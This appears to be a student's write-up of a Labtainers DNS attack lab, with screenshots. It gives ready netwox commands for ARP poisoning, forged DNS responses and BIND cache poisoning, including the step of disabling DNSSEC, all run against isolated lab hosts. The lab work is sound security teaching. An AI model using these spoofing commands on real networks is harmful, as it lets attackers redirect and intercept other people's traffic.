# Local DNS Attack Lab

# Table of Contents

- [Introduction](#introduction)
- [1. Local Poisoning of the User](#1-local-poisoning-of-the-user)
  - [Steps on ubuntu@user](#steps-on-ubuntuuser)
- [2. Forging a DNS Response to a User Request](#2-forging-a-dns-response-to-a-user-request)
  - [IP Forwarding](#ip-forwarding)
  - [ARP Table Poisoning with Netwox 80](#arp-table-poisoning-with-netwox-80)
  - [Injection of a Fake DNS Response with Netwox 105](#injection-of-a-fake-dns-response-with-netwox-105)
  - [Analysis and Proof of Successful Attack](#analysis-and-proof-of-successful-attack)
    - [Traffic Capture with tcpdump](#traffic-capture-with-tcpdump)
    - [Launching DNS Query with dig](#launching-dns-query-with-dig)
    - [Analysis of Capture and Interpretation of Results](#analysis-of-capture-and-interpretation-of-results)
- [3. DNS Cache Poisoning](#3-dns-cache-poisoning)
  - [Important Point on Targeted Domain](#important-point-on-targeted-domain)
  - [Disabling DNSSEC](#disabling-dnssec)
  - [Clearing Apollo DNS Cache](#clearing-apollo-dns-cache)
  - [ARP Poisoning on Apollo Server](#arp-poisoning-on-apollo-server)
  - [DNS Spoofing with Netwox 105](#dns-spoofing-with-netwox-105)
  - [First dig Query After Attack](#first-dig-query-after-attack)
  - [Second Verification After Stopping Netwox 105](#second-verification-after-stopping-netwox-105)
  - [Direct Check in Apollo Cache](#direct-check-in-apollo-cache)
- [Bibliography](#bibliography)

***

## Introduction

I launched the laboratory using the command `labtainer local-dns`, which opened three terminals: `user` (192.168.0.100), `apollo-dns` (192.168.0.10), and `attacker` (192.168.0.200).  
The goal of this lab is to experiment with and analyze three types of DNS attacks:
- Local poisoning of the user (local hosts file poisoning)
- Forging a DNS response to a user request (DNS spoofing)
- DNS cache poisoning (poisoning the DNS server cache)

This report will present, step by step, the manipulations performed on each terminal, their roles, and the results observed for each attack.

***

## 1. Local Poisoning of the User

The `/etc/hosts` file is a local file that maps hostnames (such as domain names) to IP addresses. When an entry exists in this file, the system uses it before querying a remote DNS server. As requested in this lab,
I simulated an attacker with access to the victim machine and modified the `/etc/hosts` file on the victim to force `www.example.com` to point to a malicious IP (in this case, 192.168.0.140).

### Steps on ubuntu@user

1. Check the existing resolution.



2. Edit the hosts file (`sudo nano /etc/hosts`) to set a different IP, specifically 192.168.0.140.



3. After saving, test the new resolution.





When I run `ping www.example.com`, the returned IP address is the one I added to `/etc/hosts`, showing that the system resolved the name locally and did not query the DNS server.  
<br>
> 📌 Note: 
> 
> Commands like `host` or `dig` directly query the configured DNS server and ignore the `/etc/hosts` file. 
> In contrast, commands like `getent` or `ping` use the system resolver, which checks `/etc/hosts` first.

***

## 2. Forging a DNS Response to a User Request

When a user requests name resolution (e.g., `www.example.com`), 
the attacker listens for the request and quickly sends a fake response pretending to be from the DNS server. 
If the fake response arrives before the legitimate one, the victim will use the attacker’s IP and connect to their machine.

### IP Forwarding

First, IP forwarding must be disabled to prevent traffic from being routed and to increase the chances that our fake response arrives 
before the legitimate one. To check if IP forwarding is enabled, I ran:
```bash
sysctl net.ipv4.ip_forward
```
To disable it:
```bash
sudo sysctl -w net.ipv4.ip_forward=0
```


### ARP Table Poisoning with Netwox 80

I used Netwox 80 to send forged ARP packets that make the victim (IP 192.168.0.100) believe that the DNS server’s IP (192.168.0.10) matches the MAC address of the attacker’s machine.
To build the command, I used:

```bash
sudo netwox 80 --help2
```



The command I used is as follows:

```bash
sudo netwox 80 -e <attacker_MAC> -i 192.168.0.10
```


This sends unsolicited ARP replies, forcing the victim to update its ARP table: <br>
_192.168.0.10_ → _attacker_MAC_. Now, all DNS traffic intended for the legitimate server is sent to the attacker.

### Injection of a Fake DNS Response with Netwox 105

With DNS traffic redirected to the attacker, I used Netwox 105 to create and send a fake DNS response:
```bash
sudo netwox 105 \
  --hostname "www.example.com" \
  --hostnameip "192.168.0.200" \
  --authns "ns.example.com" \
  --authnsip "192.168.0.10" \
  --filter "src host 192.168.0.100" \
  -s best
```
- `--hostname`: the name requested by the victim
- `--hostnameip`: the attacker’s IP
- `--authns` and `--authnsip`: make the response appear credible
- `--filter`: targets only requests from the victim
- `-s best`: uses the most effective IP spoofing method

### Analysis and Proof of Successful Attack

#### Traffic Capture with tcpdump

After launching the above commands, I started capturing network traffic on the victim to record all DNS requests and responses:
```bash
sudo tcpdump -i eth0 -s 1500 -w capture-all.pcap &
```
- `-i eth0`: targets the victim’s network interface
- `-s 1500`: captures full packets
- `-w capture-all.pcap`: saves the capture for later analysis
- `&`: runs the command in the background

#### Launching DNS Query with dig

After configuring ARP poisoning and DNS spoofing on the attacker, I ran the `dig` command on the victim to request 
resolution of `www.example.com` via the legitimate DNS server (which, due to ARP spoofing, now points to the attacker):
```bash
dig www.example.com @192.168.0.10
```
The `@192.168.0.10` specifies the DNS server to query directly. The result below shows that the victim receives 
the attacker’s IP (192.168.0.200) in the ANSWER section, proving the DNS spoofing attack worked.



<br>

#### Analysis of Capture and Interpretation of Results

After testing, I stopped the tcpdump capture and analyzed the `.pcap` file:
```bash
sudo tcpdump -n -r capture-all.pcap
```
<br>

<br>

The capture shows that the victim received a fake DNS response from the attacker, 
associating the requested name with the chosen IP (192.168.0.200). 
This proves that both ARP spoofing and DNS spoofing were successful. The victim’s DNS resolution was redirected to the attacker as intended.

***

## 3. DNS Cache Poisoning

DNS cache poisoning is an attack where false information is injected into a DNS server’s cache. 
Afterward, when a user requests resolution of a domain name, the poisoned DNS server responds with the attacker’s 
chosen IP instead of the real one. 
Users relying on this server may be redirected to fake websites controlled by the 
attacker until the cache is cleared or the false entry expires.

### Important Point on Targeted Domain

We cannot perform the attack on `www.example.com` because it is the authoritative domain for the Apollo server, 
preventing cache poisoning. To bypass this, we performed the attack on another domain: `www.helmo.be`.(my school Domain ^^)

### Disabling DNSSEC

In the BIND configuration file on Apollo:
```bash
sudo nano /etc/bind/named.conf.options
```
The DNSSEC validation was set to `auto`. To disable DNSSEC, I removed the line `dnssec-validation auto;` and added:
```
dnssec-validation no;
dnssec-enable no;
```
<br>


<br>

Then, I saved the file and restarted the DNS service:
```bash
sudo systemctl restart bind9
```


### Clearing Apollo DNS Cache

Before launching a cache poisoning attack, the DNS cache must be cleared because as long as a legitimate response 
exists in the cache, the server will not re-query and cannot be tricked by a fake response. To clear the cache:
```bash
sudo rndc flush
```


### ARP Poisoning on Apollo Server

To make Apollo send its queries to the attacker instead of the real gateway (192.168.0.1), I poisoned its ARP table:
```bash
sudo netwox 80 -e "02:42:c0:a8:00:c8" -i "192.168.0.1"
```
<br>



<br>

Here, `02:42:c0:a8:00:c8` is the attacker’s MAC, and `192.168.0.1` is the gateway’s IP. 
This makes Apollo believe that external access goes through the attacker. 
The command’s success can be verified by running `sudo arp -n` on the Apollo DNS terminal.

<br>



<br>

### DNS Spoofing with Netwox 105

I launched the cache poisoning attack on Apollo using Netwox 105. 
This command forges a fake DNS response for an external domain (`www.helmo.be`) and sends it directly to Apollo:

```bash
sudo netwox 105 --hostname "www.helmo.be" --hostnameip "192.168.0.200" --authns "ns.helmo.be" --authnsip "192.168.0.200" --filter "src host 192.168.0.10" --ttl 600 -s best
```
The parameters are explained in the previous section.

### First dig Query After Attack

Immediately after sending the fake DNS response with Netwox 105, I ran on the victim:
```bash
dig www.helmo.be
```
<br>



<br>

The output shows that Apollo returns the IP 192.168.0.200, proving the fake DNS response was successfully cached.
<br>
In parallel, on the attacker terminal, the Netwox command allowed the attacker to forge and send a fake DNS response 
directly to the Apollo server before the « legitimate » response arrives, as shown in the capture above :
<br>



<br>

### Second Verification After Stopping Netwox 105

I then stopped Netwox 105 (no more DNS spoofing or active injection) and ran the same `dig` command again. 
The result shows that the DNS server’s cache is indeed poisoned. 
Until the TTL expires, the server continues to distribute the fake information for every request.
<br>



<br>

### Direct Check in Apollo Cache

To view or display the DNS cache of BIND with `rndc dumpdb -cache`, the necessary permissions must first be granted to the `/var/cache/bind` directory:
```bash
sudo chown bind:bind /var/cache/bind
```
Then, to confirm the persistence of DNS cache poisoning on Apollo, run:
```bash
sudo rndc dumpdb -cache
sudo cat /var/cache/bind/dump.db
```
<br>



<br>

The dump shows the entry for `www.helmo.be` with the IP 192.168.0.200, confirming the attack.

***

## Bibliography

- How to turn on/off IP forwarding in Linux. (n.d.). linuxconfig.org.  
  https://linuxconfig.org/how-to-turn-on-off-ip-forwarding-in-linux
- Configuration Statement DNSSec-validation. (n.d.). BIND9 Documentation.  
  https://bind9.readthedocs.io/en/latest/reference.html#namedconf-statement-dnssec-validation
- Labtainers - Local-DNS. (n.d.).  
  https://raw.githubusercontent.com/mfthomps/Labtainers/master/labs/local-dns/docs/local-dns.pdf
- Running a Tcpdump in the background. (n.d.).  
  https://www.linuxquestions.org/questions/linux-software-2/running-a-tcpdump-in-the-background-843026/


<br>

Author: Anas EL Faijah <br>
Contact : Via https://www.linkedin.com/in/anaselfaijah/ Or elfaijahanas@gmail.com
